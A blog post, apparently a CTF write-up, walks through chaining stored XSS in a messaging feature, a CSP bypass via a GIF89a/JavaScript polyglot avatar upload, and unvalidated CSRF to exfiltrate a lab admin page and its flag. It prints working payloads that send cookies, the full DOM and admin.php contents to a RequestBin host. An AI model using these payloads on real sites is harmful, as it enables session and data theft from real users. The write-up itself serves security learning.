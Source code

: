 ```yaml
---
layout: post
title: "CTF Snippets: XSS.gif"
tags:
- hack
- ctf
- sectalks
- xss
- csrf
- file-upload
- image
- gif
- csp
- chrome
- safari
categories:
- devalias
disqus: true
webmention: true
crosspost_to_medium: false
---
```

I was playing around with the top challenge on the CTF at [SecTalks](http://www.sectalks.org/canberra/) the other night, and thought I'd do a quick writeup of some of the techniques required; for future reference, and to help others to learn.

## Hack the gibso.. Website

To start off, we were given a URL to a website that looked like a pretty standard sort of blog. Features included things like account registration/login, avatar upload, messaging between users, search, posts (not by a standard account), comments on posts (standard account), showing online users, etc. And the `administrator` was online.. interesting.

Poking around at things, I discovered that the messaging system didn't seem to filter out HTML from the subject/message body. Easy! (or so I thought) I put together a super basic PoC XSS payload and tried it out by sending a message to my own account:

```html
<script>alert('XSS')</script>
```

I checked the message.. but for some reason it didn't pop, even though my payload seemed fine in the source. :(

```html
<div class="well">
  <script>alert('XSS')</script>
</div>
```

Looking at the developer console gave me some more insight. Apparently this site had [Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy) enabled, and it was blocking my payload.

> Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-kNShxzU0TYI8w1bsujgbPcQ4oIISMT9erFfdwx1ma+M='), or a nonce ('nonce-...') is required to enable inline execution.

Probably should have noticed those headers earlier.. Oh well, now to find a way around them. With spacing added for readability, the headers looked like:

```
Content-Security-Policy:
  default-src 'none';
  img-src 'self' placehold.it *.imgix.net;
  script-src 'self';
  connect-src 'self';
  style-src 'self' fonts.gstatic.com fonts.googleapis.com;
  font-src 'self' fonts.googleapis.com fonts.gstatic.com;
```

Since compromising Google or any other websites just to beat this CTF seemed out of the question, I figured I needed a way to get my script payload uploaded so that it would run from `self`.

How about that avatar upload functionality? Well, as you might expect, it was restricted to uploading images. But surely we could find a way around that.. right? Seems so! By making use of a super simple image format, we could trick the image checker and upload our payload.

Using the `GIF89a` format (which conveniently starts with it's name, then the rest is the GIF payload) I constructed and uploaded my new 'avatar' `pwn.gif`, designed to steal cookies via [RequestBin](http://requestb.in/):

```javascript
GIF89a/*.......*/=0;
window.location='http://requestb.in/secretcode?c='+document.cookie;
```

This passed the file format checker (which should have seen it as a GIF), and hopefully when I included it in my XSS, the JavaScript would execute. Not the stealthiest payload, but it should do the trick. It was time to test out my new 'avatar' by sending myself a test message:

```html
<script src="http://example.com/uploads/filenamehash.gif"></script>
```

Loading the new message.. there was still no payload! :( It seems Chrome foiled my plans again:

> Refused to execute script from 'http://example.com/uploads/filenamehash.gif' because its MIME type ('image/gif') is not executable.

This seemed like a browser specific security feature though, so trying it out in Safari, my payload executed. Good work Apple security! Checking the captured results on RequestBin there were no cookies. Guess I probably should have looked at that `HttpOnly` flag first.. Sometimes I just get caught up in the heat of the moment.

Ok.. so we couldn't steal the cookies.. but what could we do? [Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) maybe? There was a CSRF token designed to prevent this, but it didn't seem to get validated. That's good.. but what should we target?

Needing some better visibility on the situation, I decided to just steal the whole [DOM](https://en.wikipedia.org/wiki/Document_Object_Model) and have a look around. Maybe the administrator had other cool things to look at? Hacker-eyes activate! (comments added for clarity):

```javascript
GIF89a/*.......*/=0;
/* Wait for the page to fully load */
window.onload = function() {
  /* Create a form to send to RequestBin */
  var f = document.createElement('form');
  f.id="haxForm";
  f.method="post";
  f.action="http://requestb.in/secretcode";

  /* Create a textarea to store our data */
  var t = document.createElement('textarea');
  t.name="haxPayload";

  /* Capture the entire DOM and Base64 encode it */
  t.value = btoa(document.documentElement.outerHTML)

  /* Inject the form and send it */
  f.appendChild(t);
  document.body.appendChild(f);
  document.getElementById("haxForm").submit();
};
```

Ignoring my rusty JavsScript, the new payload would create a HTML `form` element with a `textarea`, grab the entire contents of the DOM, [Base64 encode](https://developer.mozilla.org/en-US/docs/Web/API/WindowBase64/btoa) them, stick them in the `textarea`, inject the `form` into the page, then send that off to RequestBin.

After checking that this actually worked against my own account, I sent a message to the administrator and waited. After a minute or so, the message status changed to read. Heading over to RequestBin and decoding the captured DOM, I found the following snippet:

```html
<li><a href="admin.php">Administration</a></li>
```

Sweet, let's find something juicy on that page! Reworking the payload (with a little help from [JQuery](https://api.jquery.com/jquery.get/) that was already on the site):

```javascript
GIF89a/*.......*/=0;
/* Wait for the page to fully load */
window.onload = function() {
  /* Create a form to send to RequestBin */
  var f = document.createElement('form');
  f.id="haxForm";
  f.method="post";
  f.action="http://requestb.in/secretcode";

  /* Create a textarea to store our data */
  var t = document.createElement('textarea');
  t.name="haxPayload";

  /* Inject the form */
  f.appendChild(t);
  document.body.appendChild(f);

  /* Load the admin page ajax-style, Base64 encode it, send it off */
  $.get("admin.php", function(data) {
    t.value = btoa(data);
    document.getElementById("haxForm").submit();
  });
};
```

Using the last payload as the template, I updated it to load the `admin.php` page via ajax, Base64 encode the result and send it to RequestBin. After uploading, messaging the administrator, waiting, checking the  response and decoding; it seemed there wasn't even a need to do anything else:

```html
<legend>
  <h3>Administration</h3>
</legend>
<h4>flag{the-secret-flag-code}</h4>
```

Mischief managed!

## Raw Notes

I figured it might be fun to include the raw snippets of notes I made as I was going through this, to give a better idea of my thought process throughout:

* Administrator is online
* We can send messages to users
* We can inject images/etc in messages, but ContentSecurityPolicy blocks us from executing code from anywhere but self
* We can upload image files (can we make that other types?)
  * GIF89a based XSS, won't exec in chrome though..
* Administrator will read messages we send them (check the 'sent' page)
* Admin isn't using chrome! :p
* The request doesn't send us any cookies! :( (they're HTTP only)
* CSRF token doesn't seem to actually be validated.. What can we CSRF..?
* Use the XSS to send us the admin's DOM
* Seems there's an admin.php page..
* Ajax the admin page
* Success!

## Conclusion

This CTF was a pretty fun little challenge, tying together XSS, CSP bypass, file upload/image abuse and snooping through the DOM.

Has this helped you learn something new? Got a better way to approach it? I'd love to hear from you in the comments!

## References

* Content Security Policy
  * [Content Security Policy | OWASP](https://www.owasp.org/index.php/Content_Security_Policy)
  * [Content Security Policy Cheat Sheet | OWASP](https://www.owasp.org/index.php/Content_Security_Policy_Cheat_Sheet)
  * ["An Introduction to Content Security Policy" by HTML5 Rocks](http://www.html5rocks.com/en/tutorials/security/content-security-policy/)
  * [Content Security Policy References and Examples](https://content-security-policy.com/)
* File Upload/Image XSS
  * ["GIF Image XSS" by eXpl0i13r](https://blackpentesters.blogspot.com.au/2013/08/gif-image-xss.html)
  * [File Upload XSS | Hack2Learn](http://brutelogic.com.br/blog/file-upload-xss/)
  * [List of File Signatures | Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
  * ["Exploiting PHP-GD imagecreatefromgif() function" by d0lph1n98 ](https://github.com/d0lph1n98/Defeating-PHP-GD-imagecreatefromgif)
* Capturing Requests
  * [Request Bin](TODO)
